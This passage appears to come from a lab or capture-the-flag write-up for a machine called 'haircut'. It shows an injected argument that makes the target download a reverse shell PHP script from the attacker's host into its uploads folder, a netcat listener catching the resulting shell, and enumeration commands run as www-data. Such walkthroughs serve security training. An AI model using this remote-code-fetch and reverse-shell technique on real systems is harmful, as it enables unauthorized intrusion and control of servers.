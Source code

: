 Let's try that. First, let's see if we can save the reverse shell PHP script:

> http://10.10.14.7/rshell.php -o /var/www/html/uploads/rshell.php

It works, we don't see any errors. All we need to do next is visit the page in our browser after starting a listener:

> [http://10.10.10.24/uploads/rshell.php](http://10.10.10.24/uploads/rshell.php)

```
└─$ nc -nvlp 8888                         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.24.
Ncat: Connection from 10.10.10.24:59906.
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:46:20 up  2:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Enumeration as "www-data"

Let's gather some basic system information:

```
www-data@haircut:/$ uname -a;cat /etc/*-release;netstat -antp
uname -a;cat /etc/*-release;netstat -antp
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1227/nginx: worker 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0    848 10.10.10.24:59902       10.10.14.7:8888         ESTABLISHED 4506/php        
tcp        0      0 10.10.10.24:80          10.10.14.7:49394        TIME_WAIT   -               
tcp        0      0 10.10.10.24:59906       10.10.14.7:8888         TIME_WAIT   -               
tcp6       0      0 :::80                   :::*                    LISTEN      1227/nginx: worker 
tcp6       0      0 :::22                   :::*                    LISTEN      -               
www-data@haircut:/$ 
```

